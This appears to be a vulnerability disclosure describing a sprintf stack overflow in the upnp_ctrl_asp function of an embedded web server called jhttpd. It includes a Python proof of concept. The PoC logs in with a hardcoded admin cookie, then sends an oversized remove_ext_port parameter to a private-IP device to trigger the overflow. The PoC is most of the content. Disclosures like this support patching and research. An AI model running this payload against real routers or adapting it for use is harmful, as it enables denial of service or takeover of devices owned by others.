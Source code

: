 <img width="1896" height="908" alt="image" src="https://github.com/user-attachments/assets/7e8826d5-1bb8-482c-a32b-692b6b4cc1cc" /><img width="1896" height="908" alt="image" src="https://github.com/user-attachments/assets/58d34aa4-5b68-4aa7-9418-110c9632ee77" />
In the upnp_ctrl_asp function in the jhttpd program, there is a stack overflow vulnerability caused by the sprintf function, which allows an attacker to forge remove_ext_proto parameter or remove_ext_port parameter as an excessively long string, so as to splice to the stack variable when sprintf is spliced
poc：
```
import requests
url="http://172.26.25.103:7300/nat_base.asp?upnp_enable=1&upnp_mnp=0&upnp_waniface=0&exec_service=upnp-restart&_=1752864920837"
headers={"cookie":"wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
response=requests.get(url=url,headers=headers)

url2="http://172.26.25.103:7300/upnp_ctrl.asp?remove_ext_proto=1&remove_ext_port=1"+"1"*0x1000
response2=requests.get(url=url2,headers=headers)
print(response2.text)
```
